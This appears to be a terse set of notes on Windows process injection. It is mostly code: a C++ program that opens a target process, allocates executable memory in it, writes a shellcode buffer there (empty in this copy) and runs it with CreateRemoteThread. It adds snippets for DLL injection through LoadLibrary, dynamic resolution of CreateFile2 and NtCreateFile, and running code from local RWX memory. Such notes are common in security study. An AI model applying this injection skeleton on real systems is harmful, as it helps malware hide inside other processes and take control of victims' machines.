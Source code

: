 # Windows 
### Injection and Hijacking

### Win APi Functions

```cpp
OpenProcess ()

VirtualAllocEx ()

WriteProcessMemory()

CreateRemoteThread()
```

### Inject thread 


```cpp
#include <windows.h>
#include <processthreadsapi.h>

int main() {

    HANDLE hProcess, hThread;
    LPVOID start_ptr;
    DWORD tid;
    size_t written;

    char shellcode[] = {

    };
    start_ptr = (LPVOID) 0x13370000;

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 2676);

    start_ptr = VirtualAllocEx(hProcess, start_ptr, 0x1000,  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hProcess, start_ptr, shellcode, 256, &written);

    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)start_ptr, NULL, 0, &tid);

}

```


without virtualalloc

find writeable memory, put loadlibrary , pass dll as argument and call CreateRemoteThread


```
typedef HANDLE (WINAPI *CREATEFILE2)(LPCWSTR, DWORD, DWORD, DWORD, LPCREATEFILE2_EXTENDED_PARAMETERS);

GetProcAddress(GetModuleHandleA("kernelbase"), "CreateFile2");
```




```
typedef NTSTATUS (NTAPI *NtCreateFile_t)(
    PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PIO_STATUS_BLOCK,
    PLARGE_INTEGER, ULONG, ULONG, ULONG, ULONG, PVOID, ULONG
);
GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateFile");
```


```cpp
    execMem = VirtualAlloc(NULL, sizeof(code), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(execMem, code, sizeof(code));
    f = (Func)execMem;
    f(&hPipe);
```

